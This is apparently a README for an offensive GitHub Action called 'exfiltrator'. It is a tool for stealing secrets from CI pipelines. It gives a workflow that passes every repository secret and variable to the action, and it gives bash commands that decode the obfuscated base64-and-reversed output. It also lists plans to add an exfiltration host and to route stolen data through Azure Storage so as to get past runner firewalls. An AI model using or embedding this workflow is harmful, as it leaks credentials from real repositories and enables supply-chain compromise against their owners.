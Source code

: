 ## Background

All the contexts: https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/accessing-contextual-information-about-workflow-runs
Printing context to logs: https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/accessing-contextual-information-about-workflow-runs#about-contexts

## Usage

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
```

``` bash
# all of it
echo <output> | base64 -d | rev | jq

# only envvars
echo <output> | base64 -d | rev | jq -r '.[0].envvars' | base64 -d
```

## Next steps

1. Add target host to send data to
2. Check for windows and macOS
3. Exfil to Azure Storage Account because of firewall exception for https://docs.github.com/en/actions/hosting-your-own-runners/managing-self-hosted-runners/about-self-hosted-runners#communication-between-self-hosted-runners-and-github
